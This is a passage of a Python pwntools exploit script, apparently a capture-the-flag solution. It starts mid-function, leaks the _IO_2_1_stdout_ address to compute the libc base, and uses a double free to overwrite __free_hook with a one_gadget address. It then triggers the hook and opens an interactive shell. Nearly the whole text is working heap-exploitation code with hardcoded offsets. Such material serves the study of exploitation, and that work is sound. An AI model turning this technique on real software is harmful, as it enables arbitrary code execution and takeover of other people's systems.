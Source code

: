 ```python
    # 5 -- init to malloc fake chunk
    Start_rain()
    # debug(0)

    # 6 -- new chunk to print IO_stdout
    frame5 = Frame(0x30, 0x30, 3, 4, 1, b'c'*0x20)
    Config(frame5)
    # debug(0)

    # 7 -- get address of IO_stdout 
    printInfo()
    io_stdout = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
    libc_base = io_stdout - 0x3ec760
    free_hook = libc_base + 0x3ed8e8
    log.success("__IO_2_1_stdout_ => " + hex(io_stdout))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))

def pwn():
    offset = [0x4f2c5, 0x4f322, 0x10a38c]
    one_gadget = [libc_base+offset[0], libc_base+offset[1], libc_base+offset[2]]
    
    for i in range(3):
        log.success("one_gadget[" + str(i) + "] => " + hex(one_gadget[i]))
    
    Start_rain()

    # 8 --realloc user_chunk
    frame6 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame6)

    # 9 --free
    frame7 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame7)

    # 10 --double free
    frame8 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame8)

    # 11 --modify fd to __free_hook
    fake_fd = p64(free_hook) + b'b'*(0x20-0x8)   # __free_hook
    frame9 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame9)

    Start_rain()

    # modify __free_hook -> one_gadget
    fake_fd = p64(one_gadget[1]) * 4
    frame10 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)
    Config(frame10)

    # debug(0)

    # free to trigger __free_hook -> one_gadget
    frame11 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame11)

if __name__ == '__main__':

    double_free()
    leak_info()
    pwn()
    p.interactive()
```